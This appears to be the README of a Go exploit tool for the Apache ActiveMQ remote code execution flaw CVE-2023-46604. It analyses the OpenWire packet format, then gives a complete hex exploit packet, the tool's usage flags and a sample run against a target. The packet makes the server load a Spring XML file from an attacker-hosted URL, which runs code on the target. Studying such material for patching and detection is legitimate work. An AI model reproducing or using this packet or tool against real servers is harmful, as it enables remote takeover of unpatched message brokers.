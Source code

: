 # ActiveMQ-RCE

ActiveMQ RCE (CVE-2023-46604) 漏洞利用工具, 基于 Go 语言

一些详细的分析报告 (some detailed analysis reports)

[https://exp10it.cn/2023/10/apache-activemq-版本-5.18.3-rce-分析](https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/)

[https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis)

## OpenWire 协议分析

参考官方的文档以及 Wireshark 对 OpenWire 协议进行简单分析

[https://activemq.apache.org/openwire-version-2-specification](https://activemq.apache.org/openwire-version-2-specification)

一个简单的 ActiveMQ RCE 数据包如下

```
000000701f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001d687474703a2f2f3132372e302e302e313a383030302f706f632e786d6c
```

我们可以把它分成两个部分: header 和 body

header

```
+----------------------------------------------------------------------------------+
| Packet Length | Command | Command Id | Command response required | CorrelationId |
|---------------|---------|------------|---------------------------|---------------|
|   00000070    |   1f    |  00000000  |          00               |   00000000    |
+----------------------------------------------------------------------------------+
```

Packet Length: body 部分的长度 / 2

Command: Command 类型标识符 (Type Identifier), `1f` 对应 ExceptionResponse

Command Id: 顾名思义, 这里以全 0 填充

Command response required: 表示是否需要响应

CorrelationId: 顾名思义, 这里以全 0 填充

body

```
+--------------------------------------------------------------------------------------+
| not-null | not-null | classname-size | classname | not-null | message-size | message |
|----------|----------|----------------|-----------|----------|--------------|---------|
|    01    |    01    |      0042      |   .....   |    01    |     001d     |  .....  |
+--------------------------------------------------------------------------------------+
```

开头的 not-null 为 `01`, 代表整个 body 部分不为空, 后面每三个部分代表一个 String 类型

not-null 代表 classname 这个字符串不为空, 然后跟上其长度以及 hex 内容 , message 以此类推

可以参考官方文档给出的示意图

String Type Encoding

```
             [=If not-null is 1===========]
+----------+ [ +-------+----------------+ ]
| not-null | [ | size  | encoded-string | ]
+----------+ [ +-------+----------------+ ]
| byte     | [ | short | size octects   | ]
+----------+ [ +-------+----------------+ ]
             [============================]
```

Throwable Type Encoding
```
             [=If not-null is 1===========================================================================]
             [                               [=If StackTraceEnabled option is enabled.==================] ]
             [                               [             [=Repeated size times======================] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
| not-null | [ | exception-name | message |  [ | size  | [ | class  | method | file   | line-number | ] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
| byte     | [ | string         | string  |  [ | short | [ | string | string | string | int         | ] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
             [                               [           [============================================] ] ]
             [                               [==========================================================] ]
             [============================================================================================]
```

## Usage

usage

```bash
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

Usage of ./ActiveMQ-RCE:
  -i string
    	ActiveMQ Server IP or Host
  -p string
    	ActiveMQ Server Port (default "61616")
  -u string
    	Spring XML Url
```

exploit

```bash
$ ./ActiveMQ-RCE -i 127.0.0.1 -u http://127.0.0.1:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 127.0.0.1:61616
[*] XML URL: http://127.0.0.1:8000/poc.xml

[*] Sending packet: 000000701f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001d687474703a2f2f3132372e302e302e313a383030302f706f632e786d6c
```

如果只是单纯的检测是否存在漏洞, 可以将 spring xml url 改成 dnslog 地址
